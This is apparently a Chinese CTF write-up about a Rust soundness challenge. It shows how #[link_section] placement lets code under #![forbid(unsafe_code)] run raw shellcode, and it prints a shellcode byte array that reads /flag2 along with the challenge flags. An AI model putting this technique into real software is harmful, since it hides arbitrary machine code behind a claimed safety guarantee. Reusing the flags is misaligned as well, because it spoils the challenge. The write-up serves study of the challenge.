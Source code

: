 结果编译报错了

```rust
error: declaration of a function with `link_section`
  --> src/program.rs:51:1
   |
51 | #[link_section = ".init"]
   | ^^^^^^^^^^^^^^^^^^^^^^^^^
   |
   = note: the program's behavior with overridden link sections on items is unpredictable and Rust cannot provide guarantees when you manually override them
```

不过使用题目提供的容器里的编译器编译并不会出现编译错误，应该是高版本的 rust 编译器在 `#![forbid(unsafe_code)]` 控制范围的代码里禁止了这种行为。

运行一下。。段错误了。。。不知道为什么...wo 不想让它段错误的时候它却段错误了。

在拿到第二个 flag 之后我才意识到这可能才是这道题目的预期解。第一个 flag 是 `flag{W0w-YoU_PROved-tHi5_I5-un5OuNd}`, 而第二个 flag `flag{aNd-yOu-caN-eXp10it-UNSouNdne55}` 很明显的指出这两问的解法有很强的关联性。我之前的爆栈做法并不能用来做第二问（或者由于我的水平很低，想不到怎么通过爆栈来做第二问）。

通过搜索 `Rust execute shellcode` ，我们可以找到[这个帖子](https://users.rust-lang.org/t/how-can-i-execute-hex-opcodes-directly-in-rust/31123/13)。

诶？？？你竟然可以在 Safe Rust（高版本的 Rust 已经在 `#![forbid(unsafe_code)]` 的情况下禁止这种行为） 里往 ELF 里链接一段机器码？？？

```rust
#[no_mangle]
#[link_section = ".text"]
static hello_world: [u8; 38] = *b"\x6a\x01\x5f\x89\xf8\x6a\x0d\x5a\xeb\x0a\x5e\x0f\x05\x6a\x3c\x58\xff\xcf\x0f\x05\xe8\xf1\xff\xff\xff\x48\x65\x6c\x6c\x6f\x20\x77\x6f\x72\x6c\x64\x21\x0a";
```

我用 pwntools 生成了一段读取并输出 `/flag2` 的机器码（因为我太菜了，不会写 Shellcode）。

```rust
#![forbid(unsafe_code)]
use std::fs::File;
use std::io::Read;
#[link_section = ".init"]
#[no_mangle]
pub static  hello_world: [u8; 53] = *b"H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8.gm`f3\x01\x01H1\x04$j\x02XH\x89\xe71\xf6\x0f\x05A\xba\xff\xff\xff\x7fH\x89\xc6j(Xj\x01_\x99\x0f\x05";

#[link_section = ".init"]
pub fn fx() {
    let mut file = File::open("/flag2").unwrap();
    let mut s = String::new();
    file.read_to_string(&mut s).unwrap();
    println!("{}", &s);
}
pub fn run() {}
//EOF
```

用一段代码拿到两个 flag， 双倍的快乐！（然而我没搞懂为什么链接到 init 段的 rust 函数会触发段错误）

![image-20221123192303286](assets/image-20221123192303286.png)